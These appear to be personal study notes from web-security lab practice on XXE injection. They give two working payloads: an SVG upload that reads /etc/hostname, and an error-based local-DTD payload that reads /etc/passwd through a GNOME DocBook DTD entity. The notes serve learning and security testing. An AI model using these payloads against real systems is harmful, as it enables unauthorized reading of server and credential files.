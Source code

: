 > Check [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe) for more info!

---



## Method: Exploiting XXE via image file upload


1. look up if they are using any special libraries, think back too the portswigger lab --> Apache Batik library --> look it up in google or ImPu


> [!NOTE]  upload files --> /nah/web_app/upload_files/img
> SVG files use XML 


2. Check upload functionalities 

> [!NOTE] try uploading SVG into profile upload param.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```



---

# Exploiting XXE to retrieve data by repurposing a local DTD


> [!NOTE] Reference Expert Lab & Greggs Video
> Check Resources


1. Try Regular entity 
2. Try Blind entity 
3. Try Param entity 
4. Try -->  repurposing local [DTD]



> [!NOTE] If : xml input exsists
> The reason we try blind before param this time is due to an XML input already exsisting



> [!NOTE] Real World
> **Real world example:** Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso`

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
